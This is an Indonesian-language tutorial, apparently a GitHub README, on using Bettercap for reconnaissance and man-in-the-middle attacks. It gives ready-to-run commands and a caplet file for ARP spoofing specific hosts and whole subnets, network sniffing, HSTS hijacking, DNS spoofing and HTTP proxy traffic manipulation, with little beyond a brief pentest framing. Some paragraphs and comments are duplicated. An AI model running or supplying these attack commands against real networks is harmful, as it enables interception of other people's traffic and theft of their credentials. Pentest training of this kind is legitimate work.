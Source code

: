 # a

# Menggunakan Bettercap
Bettercap adalah alat keamanan jaringan yang kuat untuk melakukan pengintaian, serangan Man-in-the-Middle (MitM), dan sniffing paket. Tool ini sangat berguna untuk pengujian penetrasi dan analisis keamanan jaringan.


## Instalasi Bettercap
Untuk menginstal Bettercap pada sistem berbasis Debian/Ubuntu, jalankan perintah berikut:

```bash
sudo apt update && sudo apt install bettercap -y
```

## Menjalankan Bettercap
Untuk memulai Bettercap, gunakan perintah berikut:

```bash
sudo bettercap -iface eth0
```

Setelah masuk ke CLI Bettercap, Anda dapat menggunakan perintah-perintah berikut untuk melakukan berbagai fungsi:


```plaintext
help                # Menampilkan opsi bantuan yang tersedia                # Menampilkan opsi bantuan
net.show            # Menampilkan daftar perangkat dalam jaringan
net.probe on        # Mendeteksi perangkat dalam jaringan
net.sniff on        # Mengaktifkan sniffing jaringan

set arp.spoof.targets 192.168.1.100  # Menentukan target ARP Spoofing
arp.spoof on        # Memulai serangan ARP Spoofing
set net.sniff.filter tcp or udp

hstshijack/hstshijack on
```

## Automasi dengan File Caplet
Bettercap mendukung penggunaan file caplet untuk mengotomatisasi eksekusi perintah secara efisien. Contoh berikut menunjukkan cara membuat caplet untuk melakukan ARP Spoofing dan sniffing jaringan secara otomatis:

Untuk mempercepat eksekusi perintah, gunakan file caplet:
Bettercap mendukung penggunaan file caplet untuk mengotomatisasi eksekusi perintah secara efisien. Contoh berikut menunjukkan cara membuat caplet untuk melakukan ARP Spoofing dan sniffing jaringan secara otomatis:

Untuk mempercepat eksekusi perintah, gunakan file caplet:

```bash
cat > aria.cap << EOF
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 172.16.0.254
arp.spoof on
net.sniff on

set net.sniff.verbose true
set net.sniff.filter tcp or udp

hstshijack/hstshijack on
EOF
```

## Opsi Lainnya
Selain contoh di atas, berikut beberapa opsi lain yang bisa dicoba:

1. **Menampilkan Informasi Lebih Detail**:
   ```plaintext
   net.recon on         # Mengaktifkan mode pengintaian lanjutan
   net.show verbose     # Menampilkan detail perangkat secara lengkap
   ```

2. **Menyerang Banyak Target Sekaligus**:
   ```plaintext
   set arp.spoof.targets 192.168.1.0/24  # Menargetkan seluruh subnet
   arp.spoof on
   ```

3. **Menjalankan Modul Lainnya**:
   ```plaintext
   dns.spoof on         # Melakukan DNS Spoofing
   http.proxy on        # Menjalankan proxy HTTP untuk manipulasi trafik
   ```

Opsi-opsi ini dapat dikombinasikan dalam file caplet untuk memperluas fungsionalitas Bettercap sesuai kebutuhan Anda.

